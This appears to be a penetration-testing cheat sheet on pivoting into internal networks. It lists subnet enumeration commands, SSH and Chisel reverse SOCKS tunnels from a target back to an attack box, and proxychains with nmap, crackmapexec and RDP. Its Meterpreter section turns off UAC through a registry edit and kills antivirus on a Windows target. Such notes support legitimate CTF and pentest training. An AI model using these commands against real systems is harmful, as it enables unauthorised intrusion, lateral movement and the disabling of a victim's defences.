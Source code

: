 # Scanning though a pivot    
## Contents    
- [Scanning though a pivot](#scanning-though-a-pivot)
  * [Contents](#contents)
  * [Subnet Enumeration Commands](#subnet-enumeration-commands)
  * [ProxyChains](#proxychains)
  * [Uploading Static Binaries](#uploading-static-binaries)    
  
## Subnet Enumeration Commands    
Build an IP list then scan using nmap over proxychains    
Linux  
 
    ip a   
    arp -a
    cat /etc/hosts
    cat /etc/resolv.conf  
    netstat -antp    
    for x in {1..254};do (ping -c 1 10.1.1.$x | grep "bytes from" &); done | cut -d " "    
Windows     

    ipconfig   
## ProxyChains    
Use tools like ProxyChains to scan new hosts without dropping tools to disk.     
/etc/proxychains.conf #config file. Specify SOCKS4/5 proxy    
Set up an SSH dynamic tunnel through a bastion host to scan an internal subnet using creds:      

    ssh -D 9050 user@bastion -N -f      
Set up a reverse tunnel using [Chisel](https://github.com/jpillora/chisel):    
(For CTFs you will most likely need the AMD64/x86_64 binary)       

    ./chisel server -p 8001 --reverse        #start Chisel server on attack box   
    ./chisel client 10.10.10.10:8001 R:1080:socks    #connect from to it from a client target server  
    # add 'socks5 127.0.0.1 1080 ' to /etc/proxychains.conf  
Nmap scan through a dynamic SOCKS proxy (only -sT will work - can be a bit slow with an SSH tunnel so setting up a Chisel proxy might be a better option):       

    proxychains nmap 10.10.10.10 -sT -p 80, 443     
    proxychains nmap -iL ips.txt -sT -sV   
Web access:    

    Use FoxyProxy Firefox extension and add a SOCKS5 proxy 127.0.0.1:9050 to access a site through a dynamic tunnel   
[Using Burp Through a SOCKS5 Proxy](https://dev.to/adamkatora/how-to-use-burp-suite-through-a-socks5-proxy-with-proxychains-and-chisel-507e)    

    Use Burp Upstream Proxies feature to add SOCKS5 proxy - set FoxyProxy Firefox addon to Burp proxy     
    Burp -> Settings (upper right corner) -> Network -> Connections -> SOCKS Proxy             
    Select the option 'Override options for this project only'. Options: 127.0.0.1, 1080, use SOCKS proxy     

Use WinRM through proxychains:    

    proxychains crackmapexec winrm 10.10.10.10 -u "USERNAME" -p "PASSWORD" -x "command"    
RDP through ProxyChains:     

    proxychains xfreerdp /u:DOMAIN\\username /p:password /v:ip      

## Uploading Static Binaries    
Use static binaries from [here](https://github.com/ernw/static-toolbox) or [here](https://github.com/andrew-d/static-binaries)     
Upload nmap binary to a Windows target (through meterpreter and scan)      

    meter > upload nmap_binary      
    meter > shell     
    #then disable UAC  
    C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f     
    meter > killall av       #turn off AV
    meter > shutdown /r    
    #wait a few minutes then renew the Meterpreter session    
    meter > nmap-setup.exe /S   #install nmap silently   
Upload nmap binary to a Linux target (through meterpreter and scan)      

    meter > upload nmap . 
    chmod +x run-nmap.sh   
    ./run-nmap.sh   
    
